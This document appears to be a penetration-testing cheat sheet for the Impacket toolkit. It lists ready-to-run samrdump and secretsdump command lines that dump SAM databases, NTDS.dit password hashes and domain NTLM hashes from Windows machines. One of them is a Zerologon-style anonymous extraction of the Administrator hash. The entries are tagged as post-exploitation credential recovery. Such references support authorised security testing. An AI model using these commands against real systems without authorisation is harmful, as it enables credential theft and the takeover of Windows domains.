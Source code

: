 # Impacket

% impacket, windows, smb, 445

## samrdump - system account, shares, etc... (dump info from the Security Account Manager (SAM))
#platform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
samrdump.py <domain>/<user>:<password>@<target_ip>
```

## secretsdump
#platform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
impacket-secretsdump '<domain>/<user>:<password>'@<target_ip>
```

## secretsdump local dump - extract hash from sam database
#platform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
impacket-secretsdump  -system <SYSTEM_FILE|SYSTEM> -sam <SAM_FILE|SAM> LOCAL
```

## secretsdump local dump - extract hash from ntds.dit
#platform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
impacket-secretsdump  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes <lmhash|00000000000000000000000000000000>:<nthash> LOCAL -outputfile <ntlm-extract-file>
```

## secretsdump - anonymous get administrator 
zerologon
#platform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
impacket-secretsdump <domain>/<dc_bios_name>\$/@<target_ip> -no-pass -just-dc-user "Administrator"
```

## secretsdump - remote extract
#platform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
impacket-secretsdump -just-dc-ntlm -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<target_ip>
```

## secretsdump - remote extract + users infos
#platform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
impacket-secretsdump -just-dc -pwd-last-set -user-status -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<target_ip>
```


